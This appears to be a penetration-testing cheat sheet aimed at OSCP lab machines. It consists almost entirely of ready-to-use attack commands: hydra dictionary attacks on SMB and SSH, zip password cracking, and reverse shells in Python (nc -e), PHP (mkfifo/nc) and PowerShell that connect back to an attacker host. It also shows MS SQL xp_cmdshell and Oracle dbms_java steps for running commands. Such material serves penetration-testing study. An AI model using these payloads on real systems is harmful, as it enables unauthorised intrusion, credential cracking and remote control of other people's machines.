 # Offensive Security Testing Guide
This cheat sheet is the compilation of commands to exploit the vulnerable machines. The commands below may not be enough for you to obtain your Offensive Security Certified Professional (OSCP).

# Dictionary Attack
```bash
hydra -L <user_dict> -P <pwd_dict> 192.168.56.1 smb
hydra -L <user_dict> -P <pwd_dict> 192.168.56.1 ssh
```

```bash
fcrackzip -u -D -p <dictionary_file> <zip_file>
```

# Code Execution
Python 
```python 
import subprocess
subprocess.check_output(['whoami'])
```

```python 
import os
import sys

os.system('nc -e /bin/bash <attacker_ip> 8099')
```

PHP
```php
<?php passthru("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_ip_address> 8099 > /tmp/f"); ?>
```
MS SQL
```sql
EXEC SP_CONFIGURE N'show advanced options', 1
go
EXEC SP_CONFIGURE N'xp_cmdshell', 1
go
RECONFIGURE
go
xp_cmdshell 'cd C:\<path_to_bind_shell>\ & <bind_shell_name>.exe';
go
```

Oracle iSQL* Plus
```sql
exec dbms_java.grant_permission( 'SYSTEM','SYS:java.io.FilePermission', '<<ALL FILES>>', 'execute');

begin
  dbms_java.grant_permission
      ('SYSTEM',
       'java.io.FilePermission',
       '<<ALL FILES>>',
       'execute');
  dbms_java.grant_permission
      ('SYSTEM',
       'java.lang.RuntimePermission',
       '*',
       'writeFileDescriptor' );
end;

exec javacmd('<command>');
```

Power Shell
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.56.101',8099);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
